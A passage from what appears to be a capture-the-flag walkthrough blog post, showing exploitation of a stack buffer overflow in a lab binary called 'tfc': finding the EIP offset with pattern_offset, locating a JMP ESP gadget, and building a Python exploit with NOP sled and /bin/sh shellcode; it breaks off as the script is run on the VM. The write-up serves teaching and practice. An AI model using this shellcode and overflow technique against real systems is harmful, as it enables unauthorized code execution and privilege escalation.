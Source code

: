 With the crash at `0x35684634`, we check up with `pattern_offset` to see where exactly in that 6000 character buffer this pattern occurs:

```bash
root@kali:~# /usr/share/metasploit-framework/tools/pattern_offset.rb 35684634
[*] Exact match at offset 4124
```

This means EIP starts at byte 4124 of evil buffer. So back I went to our file generation script and changed the payload to send 4124 _A_'s and then 4 _B_'s, and padded the rest with _C_'s up to 6000 characters.

```bash
content = "A" *4124 + "BBBB" + "C"*(6000-4124-4)
```

This resulted in a crash at `0x42424242` in `gdb` which was perfect!

##exploiting tfc
The only thing that was left to do was to find a `JMP ESP` instruction we could jump to, and add some shell code on to the stack. Since the binary compiled with `NO NX`, it should happily execute code on it.

{% img https://i.imgur.com/Mqkfe8l.png %}

Using Evans Debugger (run with `edb --run ./tfc`), I searched for a _JMP ESP_ instruction and found one in `tfc` itself at `0x08048e93`. This is where we will tell EIP to point to when we corrupt the memory. That means our contents will change to:

```bash
content = "A" *4124 + "\x93\x8e\x04\x08" + "C"*(6000-4124-4)
```

Lastly, we need some shell code. I just re-used some `/bin/sh` shell code I have stashed away for this one, and added it to the buffer after a few NOP's just in case. Normally one would have to actually first check for any bad characters that may cause our shellcode to break when sent via the buffer. I skipped this and was lucky to have a working one first try. The final exploit therefore has the following section to prepare the contents:

```python
if __name__ == '__main__':

    # 08048e93  ; jmp esp
    shellcode = (
        "\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68" +
        "\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80"
    )
    
    content = "A" *4124 + "\x93\x8e\x04\x08" + "\x90"*16 + shellcode + "C" *(6000-4124-4-16-len(shellcode))
    length = len(content)

    encrypted = xcrypt(content, length)
    print encrypted
```

With the contents prepared, we would then run it outside of a debugger to test and get dropped into a shell. That concluded the testing and the script was ready for use on the VM. So, I copied the python over to `jason`'s home directory and executed it:
